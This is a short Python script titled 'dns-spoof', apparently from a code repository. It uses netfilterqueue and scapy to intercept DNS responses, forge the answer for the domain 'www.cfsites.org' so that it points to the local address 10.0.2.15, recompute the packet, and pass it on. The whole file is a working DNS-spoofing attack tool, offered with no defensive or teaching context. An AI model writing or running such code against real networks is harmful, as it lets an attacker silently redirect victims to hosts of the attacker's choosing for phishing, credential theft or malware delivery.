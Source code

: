 # dns-spoof
import netfilterqueue
import scapy.all as scapy

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
        qname = scapy_packet[scapy.DNSQR].qname
        if "www.cfsites.org" in qname:
            print("[+] spoofing target ")
            answer = scapy.DNSRR(rrname=qname, rdata="10.0.2.15")
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len

            packet.set_payload(str(scapy_packet))

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
